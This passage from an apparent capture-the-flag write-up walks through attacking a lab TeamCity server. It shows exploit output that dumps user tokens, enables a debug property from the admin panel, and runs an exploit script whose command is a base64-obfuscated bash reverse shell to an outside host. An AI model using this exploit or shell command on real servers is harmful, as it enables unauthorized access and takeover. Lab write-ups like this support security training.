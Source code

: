```python
[+] Token name: tPV4ND2QO5

[*] Getting all user information...
[+] User ID: 1, Username: admin, Tokens: 
[+] User ID: 2, Username: matthew, Tokens: 
[+] User ID: 11, Username: raccoon, Tokens: 
[+] User ID: 12, Username: m23ylx2f, Tokens: byDQoVPvpC
[+] User ID: 13, Username: xhkxij86, Tokens: jyea3NotU5
[+] User ID: 14, Username: uj8p7zho, Tokens: XHgfsaqccq
[+] User ID: 15, Username: rcity_rules_899, Tokens: tPV4ND2QO5

[*] Executing command: whoami
ding with error, status code: 400 (Bad Request).
Details: jetbrains.buildServer.server.rest.errors.BadRequestException: This server is not configured to allow process debug launch via "rest.debug.processes.enable" internal property
Invalid request. Please check the request URL and data are correct
```

Disabled debug process puts a damper into my plans. I log in with the new account created and notice some more options.

![Teamcity rcity project +]({{ page.img }}_admin_project_plus.png)

![Teamcity raccoon project create]({{ page.img }}_project_create.png)

I experimented around with trying to get a project imported but I couldn't seem to find a way to get a shell out of it, onto another avenue. Now that I have the administration tab I can maybe set some properties or even use debug tools locally in the webapp. 

Some confirmation of other findings I found the user tab:

![Teamcity rcity users]({{ page.img }}_users.png)

Under Diagnostics there are internal properties, and given the rest debug process wasn't enabled maybe I can add that property here.

![Teamcity rcity debug enable]({{ page.img }}_debug_enable.png)

![Teamcity rcity properties]({{ page.img }}_internal_properties.png)

Next I'll run the tool which will make a new admin then try and run a command.


```python
python3 exploit.py -t http://teamcity.runner.htb -c "echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43Lzc3NzcgMD4mMQ==' | base64 -d | bash"



░▒▓███████▓▒░ ░▒▓██████▓▒░░▒▓█▓▒░▒▓████████▓▒░▒▓█▓▒░░▒▓█▓▒░ 
░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░  ░▒▓█▓▒░   ░▒▓█▓▒░░▒▓█▓▒░ 
░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░  ░▒▓█▓▒░   ░▒▓█▓▒░░▒▓█▓▒░ 
░▒▓███████▓▒░░▒▓█▓▒░      ░▒▓█▓▒░  ░▒▓█▓▒░    ░▒▓██████▓▒░  
░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░  ░▒▓█▓▒░      ░▒▓█▓▒░     
░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░  ░▒▓█▓▒░      ░▒▓█▓▒░     
░▒▓█▓▒░░▒▓█▓▒░░▒▓██████▓▒░░▒▓█▓▒░  ░▒▓█▓▒░      ░▒▓█▓▒░     
    
...
...

[*] Executing command: echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43Lzc3NzcgMD4mMQ==' | base64 -d | bash
```
